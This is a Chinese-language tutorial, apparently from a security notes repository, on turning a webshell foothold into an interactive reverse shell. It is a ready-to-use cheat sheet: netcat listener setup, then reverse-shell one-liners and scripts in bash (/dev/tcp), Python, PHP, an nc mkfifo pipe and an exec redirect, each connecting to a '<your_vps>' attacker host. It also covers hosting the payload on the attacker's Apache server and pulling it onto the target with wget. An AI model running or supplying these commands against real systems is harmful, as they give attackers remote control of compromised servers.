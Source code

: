 ## Shell 反弹

当拿到webshell的时候，因为webshell的环境是虚拟终端，不是交互型终端，很多命令是无法执行的，所以需要拿到交互式shell，就得反弹shell

### 工具准备

- VPS(公网ip)
- python环境
- nc(netcat)
- Ubuntu(宿主机)

### 反弹shell 步骤

首先在vps上使用netcat开启监听

```bash
nc -lvnp 8080
```

参数

- -l：使用监听模式，监控传入的资料;
- -v：显示指令执行过程；
- -n：直接使用ip地址，而不通过域名服务器；
- -p：<通信端口>：设置本地主机使用的通信端口

![](反弹shell.assets/nc-1.png)

- 测试

  在Ubuntu上开启tcp8080端口，通过上图可以看见nc 监听了本地的8080端口，且是TCP协议

- 在监听机上(vps)上监听8080端口

![](反弹shell.assets/nc-2.png)

### bash反弹

```shell
bash -i >& /dev/tcp/<your_vps>/8080 0>&1
```

> -  `bash -i`  ： 产生一个bash的交互环境；
> - `>&`：将联合符号前面的内容与后面的内容相结合然后一起重定向给后者；
> - /dev/tcp/<your_vps>/8080：与目标主机ip/8080端口建立一个TCP连接；
> - 0>&1：将标准输入与标准输出相结合，重定向到前面标准输出内容

![](反弹shell.assets/nc-3.png)

### python一句话反弹shell

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_vps>",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](反弹shell.assets/nc-4.png)

这样虽然反弹回来了，但是看不到用户是谁，此时可以使用python 一句话反弹用户

```shell
python -c "import pty;pty.spawn('/bin/bash')"
```

![](反弹shell.assets/nc-5.png)

### python 脚本执行

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<your_vps>",8080));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

当拿到webshell权限之后，可以上传此脚本，只要目标服务器有python环境，即可执行此脚本，并在攻击机上反弹回shell

也可以将此脚本上传至攻击服务器上，使用wget 下载攻击机上的文件，然后再目标服务器上下载此文件(目标服务器有wget命令的情况下)

针对第二种方法介绍(由于第一种方法可以在菜刀，蚁剑等工具直接上传较简单)

首先在vps中开启Apache

```shell
service apaache2 restart
```

将脚本放置在/var/www/html 目录下

![](反弹shell.assets/nc-6.png)

在目标服务器上下载此脚本

```shell
wget http://ip/shell.py
```

![](反弹shell.assets/nc-7.png)

在宿主机上执行shell.py（注意权限）

![](反弹shell.assets/nc-8.png)

### PHP 一句话执行

要求宿主机上拥有php环境

```shell
php -r '$sock=fsockopen("<your_vps>",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![](反弹shell.assets/nc-9.png)

### PHP 脚本

```php
<?php $sock=fsockopen("<your_vps>",8080);exec("/bin/sh -i <&3 >&3 2>&3");?>
```

![](反弹shell.assets/nc-10.png)

### nc命令获取靶机的反弹shell

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_vps> 8080 >/tmp/f
```

![](反弹shell.assets/nc-11.png)

### exec 反弹

```shell
0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196
```

![](反弹shell.assets/nc-14.png)

### webshell 下反弹shell

蚁剑连接webshell下

在webshell 下操作可行的有

- python 脚本执行
- PHP 脚本

![](反弹shell.assets/nc-13.png)

![](反弹shell.assets/nc-12.png)

